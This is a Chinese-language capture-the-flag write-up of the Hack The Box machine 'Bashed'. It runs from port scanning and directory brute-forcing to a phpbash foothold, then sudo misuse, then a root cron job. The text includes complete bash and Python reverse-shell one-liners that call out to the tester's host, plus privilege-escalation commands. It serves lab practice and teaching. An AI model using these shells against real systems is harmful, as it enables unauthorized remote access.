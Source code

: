 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集
先手 `nmap`。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.68
```
就开了一个 80。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面，title=""。

![](./1.png)

### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.68
```
未见开放。

**共开放了 `tcp 80` 端口。**

## 0x02 漏洞利用
### 1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。

![](./2.png)
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 `dirbuster` 默认字典跑一下，既然是 php 站点，后缀先用默认的 `.php`。
扫到可疑文件。

![](./3.png)
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

浏览器打开，是一个页面命令行，身份是普通用户 `www-data`。

![](./4.png)

页面下的 shell 多有不便，先弹一个 shell 出来。

这里应该是做了限制，尝试 `bash`、`nc` 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 `curl` 测试又是通的，遂把其他脚本也试了一轮，最后 `python` 成功反弹。
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 0x03 提权
首先关注一下 sudo 权限配置。
``` bash
sudo -l
```
这个配置意思是 `以 scriptmanager 用户的身份无需密码执行任意命令`。

![](./5.png)
狂喜，跑一个 `id` 看看，返回显示还是普通用户。
``` bash
sudo -u scriptmanager id
```
![](./6.png)
并且尝试花式 `su` 到 `root` 都没用，一律需要输密码，切不上去，人傻了。
``` bash
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
```

![](./7.png)
> `su` 需要一个完全互动的 TTY，否则会报错 `su: must be run from a terminal`。切换 TTY：
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> ![](./8.png)

看一下 sudo 版本：`1.8.16`，查到一个漏洞 [CVE-2019-14287](https://paper.seebug.org/1057/)，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我**用 scriptmanager 做一些 www-data 做不到的事情**？

切换到 `scriptmanager`。
``` bash
sudo -u scriptmanager /bin/bash
```
翻一下这个所属用户为 `scriptmanager` 的文件是否能发现端倪，定位到根目录下的 `scripts` 文件夹。

![](./9.png)
里面有两个文件，根据内容推断出: `scriptmanager 的 python` 脚本执行后会生成一个 `root 的 txt`，说明意味着**这里的 python 文件会以 root 权限执行**，即使暂时不知道原因。

![](./10.png)
所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。

![](./13.png)
![](./11.png)
说明肯定不是由用户来执行，而且 `test.txt` 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 `test.py`。此时断开 shell，打开监听，等待计划任务执行。

![](./14.png)
果不其然得到一个 root shell。

![](./12.png)

> 事后查看计划任务，确实。
> 
> ![](./15.png)

## 0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)

## 0x05 学到什么
#### 1、渗透的时候不要为了省事疯狂 `ls`，能 `ls -la` 的时候尽量用，避免遗漏重要信息。
#### 2、对于不直接的线索要冷静分析，比如看到一个 NOPASSWD，却不是 root，也不要谎，都是套路。